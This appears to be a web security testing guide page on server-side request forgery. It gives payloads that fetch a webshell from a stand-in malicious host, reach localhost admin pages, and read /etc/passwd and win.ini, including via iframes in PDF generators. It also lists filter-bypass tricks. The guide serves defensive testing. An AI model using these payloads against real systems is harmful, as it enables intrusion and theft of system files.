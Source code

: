 # Testing for Server-Side Request Forgery

## Summary

Often web applications may have to interact with internal or external resources in order to provide certain functionality, with the expectation that only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for injection attacks that are called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify injection points (External resource calls, API calls)
- Test if the SSRF is exploitable
- Asses the severity of the vulnerability

## How to Test

When testing for SSRF we are trying to trick the server into loading/writing unintended content. The most common test is for local and remote file inclusion, but there is another facet to SSRF, a trust relationship that often arises with server-side request forgery where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. However internal systems often contain sensitive data or functionality.

If we have the following request:

`https://example.com/page?page=about.php`, we can try the following payloads:

Return the content of an external resource like a webshell.

`https://example.com/page?page=https://malicioussite.com/shell.php`

Use the localhost/loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host then you have enough privileges to directly access the `admin` page.
These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what makes SSRF into a critical vulnerability.

`https://example.com/page?page=http://localhost/admin`

or

`https://example.com/page?page=http://127.0.0.1/admin`

Fetch a local file

`https://example.com/page?page=file:///etc/passwd`

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.
One important note on SSRF with POST requests is that the SSRF may also manifest in a Blind manner, because the application might not return anything immediately, that data might be used in other functionality such as PDF reports, invoice/order handling, etc. which are visible to employees/staff but not necessarily the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [References section](#references).

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`, this can be circumvented by:

- Using alternative IP representation such as such as 2130706433, 017700000001, or 127.1 which evaluate to 127.0.0.1
- String obfuscation
- Registering your own domain that resolves to 127.0.0.1

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented.

- Using the `@` character: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

You can find more payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery).

## Remediation

Some of the main mitigation techniques include implementing IP filtering and URL filtering. You can find out more on the
[OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## Tools

- Burpsuite
- ZAP

## References

- [SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SSRF](https://portswigger.net/web-security/ssrf)
- [Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
